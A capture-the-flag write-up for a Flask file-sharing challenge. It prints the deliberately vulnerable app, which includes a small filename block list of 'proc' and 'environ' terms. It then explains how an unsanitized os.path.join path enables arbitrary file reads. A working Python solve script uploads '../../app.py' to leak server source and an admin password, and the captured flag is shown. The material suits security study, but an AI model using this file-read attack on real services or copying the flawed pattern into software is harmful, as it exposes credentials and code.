

## Overview

* 120 points
* easy

## Description

> All love for Watermelons 🍉🍉🍉
> 
> Note: The code provided is without jailing, please note that when writing exploits.

### Attached

[watermelon-player.zip](attached/watermelon-player.zip)

This is `app.py` file

```py
from flask import Flask, request, jsonify, session, send_file
from functools import wraps
from flask_sqlalchemy import SQLAlchemy
import os, secrets
from werkzeug.utils import secure_filename


app = Flask(__name__)
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///db.db' 
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
app.config['SECRET_KEY'] = secrets.token_hex(20)
app.config['UPLOAD_FOLDER'] = 'files'


db = SQLAlchemy(app)

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True, nullable=False)
    password = db.Column(db.String(120), nullable=False)

class File(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    filename = db.Column(db.String(255), nullable=False)
    filepath = db.Column(db.String(255), nullable=False)
    uploaded_at = db.Column(db.DateTime, nullable=False, default=db.func.current_timestamp())
    user_id = db.Column(db.Integer, db.ForeignKey('user.id'), nullable=False)

    user = db.relationship('User', backref=db.backref('files', lazy=True))


def create_admin_user():
    admin_user = User.query.filter_by(username='admin').first()
    if not admin_user:
        admin_user = User(username='admin', password= secrets.token_hex(20))
        db.session.add(admin_user)
        db.session.commit()
        print("Admin user created.")
    else:
        print("Admin user already exists.")

with app.app_context():
    db.create_all()
    create_admin_user()

def login_required(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        if 'username' not in session or 'user_id' not in session:
            return jsonify({"Error": "Unauthorized access"}), 401
        return f(*args, **kwargs)
    return decorated_function


def admin_required(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        if 'username' not in session or 'user_id' not in session or not session['username']=='admin':
            return jsonify({"Error": "Unauthorized access"}), 401
        return f(*args, **kwargs)
    return decorated_function

@app.route('/')
def index():
    return 'Welcome to my file sharing API'

@app.post("/register")
def register():
    if not request.json or not "username" in request.json or not "password" in request.json:
        return jsonify({"Error": "Please fill all fields"}), 400
    
    username = request.json['username']
    password = request.json['password']

    if User.query.filter_by(username=username).first():
        return jsonify({"Error": "Username already exists"}), 409

    new_user = User(username=username, password=password)
    db.session.add(new_user)
    db.session.commit()

    return jsonify({"Message": "User registered successfully"}), 201

@app.post("/login")
def login():
    if not request.json or not "username" in request.json or not "password" in request.json:
        return jsonify({"Error": "Please fill all fields"}), 400
    
    username = request.json['username']
    password = request.json['password']

    user = User.query.filter_by(username=username, password=password).first()
    if not user:
        return jsonify({"Error": "Invalid username or password"}), 401
    
    session['user_id'] = user.id
    session['username'] = user.username
    return jsonify({"Message": "Login successful"}), 200

@app.get('/profile')
@login_required
def profile():
    return jsonify({"username": session['username'], "user_id": session['user_id']})

@app.get('/files')
@login_required
def list_files():
    user_id = session.get('user_id')
    files = File.query.filter_by(user_id=user_id).all()
    file_list = [{"id": file.id, "filename": file.filename, "filepath": file.filepath, "uploaded_at": file.uploaded_at} for file in files]
    return jsonify({"files": file_list}), 200


@app.route("/upload", methods=["POST"])
@login_required
def upload_file():
    if 'file' not in request.files:
        return jsonify({"Error": "No file part"}), 400
    
    file = request.files['file']
    if file.filename == '':
        return jsonify({"Error": "No selected file"}), 400
    
    user_id = session.get('user_id')
    if file:
        blocked = ["proc", "self", "environ", "env"]
        filename = file.filename

        if filename in blocked:
            return jsonify({"Error":"Why?"})

        user_dir = os.path.join(app.config['UPLOAD_FOLDER'], str(user_id))
        os.makedirs(user_dir, exist_ok=True)
        

        file_path = os.path.join(user_dir, filename)

        file.save(f"{user_dir}/{secure_filename(filename)}")
        

        new_file = File(filename=secure_filename(filename), filepath=file_path, user_id=user_id)
        db.session.add(new_file)
        db.session.commit()
        
        return jsonify({"Message": "File uploaded successfully", "file_path": file_path}), 201

    return jsonify({"Error": "File upload failed"}), 500

@app.route("/file/<int:file_id>", methods=["GET"])
@login_required  
def view_file(file_id):
    user_id = session.get('user_id')
    file = File.query.filter_by(id=file_id, user_id=user_id).first()

    if file is None:
        return jsonify({"Error": "File not found or unauthorized access"}), 404
    
    try:
        return send_file(file.filepath, as_attachment=True)
    except Exception as e:
        return jsonify({"Error": str(e)}), 500


@app.get('/admin')
@admin_required
def admin():
    return os.getenv("FLAG","BHFlagY{testing_flag}")


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

## Analyzation

We can easily see that we need to log in as an `admin` to obtain the flag.

First, I researched the library error and discovered that `SQLAlchemy` had a SQL injection vulnerability documented as [CVE-2019-7548](https://security.snyk.io/package/pip/sqlalchemy). However, it has been fixed in the current version, so it could not be exploited here.

Second, I found a cookie that resembled a JWT



However, it could not be modified to `admin`.

Then, I looked in `/upload` functionality. They used `secure_filename()` to prevent Path Traversal attack (see [here](https://flask.palletsprojects.com/en/2.3.x/patterns/fileuploads/)). But they did not check file content! So we could upload code and execute it, right?

Nah! We can only download files; we cannot execute them server-side. Download... Download... What if... we can download backend files?


## Vulnerabilities

The documentation for the `os.path.join()` function includes the following notice:

> If a segment is an absolute path (which on Windows requires both a drive and a root), then all previous segments are ignored and joining continues from the absolute path segment.

That means the `file_path` can be `/etc/passwd`, or anything, which cannot be detected by `secure_filename()`.

```py
file_path = os.path.join(user_dir, filename)
```

Then when that path is saved into database, we can read any files!

```py
new_file = File(filename=secure_filename(filename), filepath=file_path, user_id=user_id)
db.session.add(new_file)
db.session.commit()
```

Note that the file will be uploaded into intended directory, but we do not need to care about that. We want to read other files.

## Exploitation

You can use Python or Burp to modify filepath. Modify to `../../app.py` to read `app.py` file. Then use `/file/<int:file_id>` to read.

## Solution

```py
import requests

# URL = 'http://localhost:5000'
URL = 'http://a108fda8273cb696f5ad0.playat.flagyard.com/'

# -----------------------------------------------------------
def regist_account(url, account):
    response = requests.post(url=url + '/register', json=account)
    
    if response.status_code == 201:
        print("[+] Regist successfully: ", response.status_code)
    else:
        print("[+] Regist fail: ", response.status_code)
    print('\t---------------------------------------')
    print('\t', response.text)
    print('\t---------------------------------------')
    
def login_account(url, session: requests.Session, account):
    response = session.post(url=url + '/login', json=account)
    
    if response.status_code == 200:
        print("[+] Login successful: ", response.status_code)
    else:
        print("[+] Login fail: ", response.status_code)
    print('\t---------------------------------------')
    print('\t', response.text)
    print('\t---------------------------------------')
    
def get_profile(url, session: requests.Session):
    response = session.get(url=url + '/profile')
    print('[+] Profile: ')
    print('\t---------------------------------------')
    print('\t', response.text)
    print('\t---------------------------------------')

def get_list_files(url, session: requests.Session):
    response = session.get(url=url + '/files')
    print('[+] Files: ')
    print('\t---------------------------------------')
    print('\t', response.text)
    print('\t---------------------------------------')
    
def upload_file(url, session: requests.Session, file_path: str, file_newname: str):
    files = {'file': (file_newname, open(file_path, 'rb'))}
    
    response = session.post(url=url + '/upload', files=files)
    if response.status_code == 200:
        print("[+] File uploaded successfully: ", response.status_code)
    else:
        print("[+] File upload failed: ", response.status_code)
    print('\t---------------------------------------')
    print('\t', response.text)
    print('\t---------------------------------------')

def get_file(url, session: requests.Session, file_id: int):
    response = session.get(url=url + f'/file/{file_id}')
    print('[+] File content: ')
    print('\t---------------------------------------')
    print('\t', response.text)
    print('\t---------------------------------------')

# -----------------------------------------------------------

def get_admin():
    test_user = {
        'username': 'b',
        'password': 'b'
    }
    
    regist_account(url=URL, account=test_user)
    
    session = requests.Session()
    login_account(url=URL, session=session, account=test_user)
    
    get_profile(url=URL, session=session)
    get_list_files(url=URL, session=session)
    
    upload_file(url=URL, session=session, file_path='upload.py', file_newname='../../app.py')
    get_list_files(url=URL, session=session)
    
    file_id = 2 # CHANGE THIS ID
    get_file(url=URL, session=session, file_id=file_id)
    
def get_flag():
    admin = {
        'username': 'admin',
        'password': '0afc1e0ed61beb49f5f41838bcb0d8bf091b2796'
    }
    session2 = requests.Session()
    login_account(url=URL, session=session2, account=admin)
    
    response = session2.get(url=URL + '/admin')
    print(response.text)
    
if __name__ == '__main__':
    get_admin()
    # get_flag()
```

`admin`'s password is in `app.py`. Another target can be `app/instance/db.db`, since they save plain password to database!

The flag is
```
BHFlagY{f0bfb74dde14ce3c83866fdd6e653ea8}
```